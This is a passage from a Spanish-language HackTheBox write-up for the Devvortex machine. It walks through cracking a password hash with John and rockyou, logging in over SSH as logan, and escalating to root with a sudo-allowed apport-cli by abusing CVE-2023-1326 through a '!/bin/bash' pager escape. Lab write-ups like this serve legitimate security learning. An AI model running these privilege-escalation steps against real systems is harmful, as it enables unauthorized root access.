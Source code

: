 Primero vamos a poner el hash en un archivo con [[nvim]] usando el comando nvim test.txt
Y luego con el comando `john test.txt -w=/usr/share/wordlists/rockyou.txt` nos da la contraseña *tequieromucho*

![[Devvortex25.png]]

### Conexion por [[ssh]]

Nos vamos a conectar a [[ssh]] con el comando `ssh logan@10.10.11.242 -p 22` y vamos a proporcionar la contraseña *tequiermucho*

![[Devvortex29.png]]
Ya estamos dentro como el usuario *logan*

-------
# [[Tratamiento de la TTY]]

-------
# Escalada al usuario root con [[Abuso de Sudo]] [[Binario apport-cli]] y [[CVE-2023-1326]]

```shell
sudo -l
```
![[Devvortex30.png]]
Nos indica que todos pueden usar el binario apport-cli sin proporcionar contraseña
Usamos el comando `apport-cli -v` para ver la version y vemos que es la *2.20.11*
![[Devvortex35.png]]

Viendo el [siguiente articulo sobre CVE-2023-1326 hecho por diego-tella](https://github.com/diego-tella/CVE-2023-1326-PoC) tenemos este CVE para la version 2.26.0, asi que como tenemos una version mas vieja, vamos a probar ejecutar lo mismo

Vemos que si ejecutamos el binario de la siguiente forma``sudo /usr/bin/apport-cli /bin/bash`

![[Devvortex31.png]]
Luego cuando nos pide que queremos hacer, ponemos la *v* que es para ver el reporte
Y vamos a poner *!/bin/bash* para que se nos abra una shell con los permisos de root
![[Devvortex32.png]]
Ya ganamos acceso como root y podemos catear las flags
![[Devvortex34.png]]

----------
# Creditos

Writeup oficial HackTheBox
[Writeup de Sam](https://infosecwriteups.com/devvortex-hackthebox-walkthrough-6b6cbf8df1eb)